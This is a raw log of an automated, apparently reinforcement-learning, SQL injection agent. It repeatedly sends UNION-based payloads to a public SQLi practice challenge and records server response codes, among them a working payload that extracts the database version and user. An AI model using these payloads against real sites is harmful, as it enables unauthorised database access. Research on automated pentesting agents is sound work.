https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'u

  0%|          | 28/1000000 [20:49<14528:26:29, 52.30s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server res

  0%|          | 29/1000000 [22:17<17467:16:47, 62.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server r

  0%|          | 30/1000000 [22:33<13542:01:53, 48.75s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 31/1000000 [22:38<9908:09:33, 35.67s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Serv

  0%|          | 32/1000000 [23:49<12904:18:53, 46.46s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1

  0%|          | 33/1000000 [23:56<9605:44:56, 34.58s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax

  0%|          | 34/1000000 [24:17<8480:48:34, 30.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server respons

  0%|          | 35/1000000 [24:48<8515:27:25, 30.66s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.al

  0%|          | 36/1000000 [25:22<8805:28:59, 31.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 37/1000000 [25:24<6329:44:01, 22.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union sele

  0%|          | 38/1000000 [25:33<5144:16:20, 18.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'u

  0%|          | 39/1000000 [26:29<8247:38:37, 29.69s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 40/1000000 [26:32<6077:36:03, 21.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https:

  0%|          | 41/1000000 [26:48<5546:32:24, 19.97s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 

  0%|          | 42/1000000 [26:57<4617:46:19, 16.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server r

  0%|          | 43/1000000 [29:28<15847:40:33, 57.05s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 44/1000000 [29:34<11557:21:03, 41.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union selec

  0%|          | 45/1000000 [33:21<27057:28:03, 97.41s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.alter

  0%|          | 46/1000000 [33:48<21177:14:31, 76.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 47/1000000 [33:52<15166:19:45, 54.60s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--

  0%|          | 48/1000000 [35:00<16227:01:20, 58.42s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union

  0%|          | 49/1000000 [36:27<18662:50:45, 67.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc numbe

  0%|          | 50/1000000 [38:03<21011:50:35, 75.65s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 51/1000000 [38:07<15060:58:27, 54.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server respons

  0%|          | 52/1000000 [38:48<13966:20:38, 50.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server r

  0%|          | 53/1000000 [38:56<10469:02:37, 37.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union selec

  0%|          | 54/1000000 [40:38<15843:42:58, 57.04s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union sel

  0%|          | 55/1000000 [41:10<13703:25:22, 49.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem

  0%|          | 56/1000000 [41:51<13061:25:02, 47.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 

  0%|          | 57/1000000 [41:58<9677:49:56, 34.84s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 

  0%|          | 58/1000000 [42:28<9311:24:28, 33.52s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 59/1000000 [42:29<6595:37:25, 23.75s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 60/1000000 [42:30<4675:52:38, 16.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zi

  0%|          | 61/1000000 [42:42<4267:47:46, 15.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 62/1000000 [42:43<3049:52:59, 10.98s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 63/1000000 [42:43<2197:12:42,  7.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'un

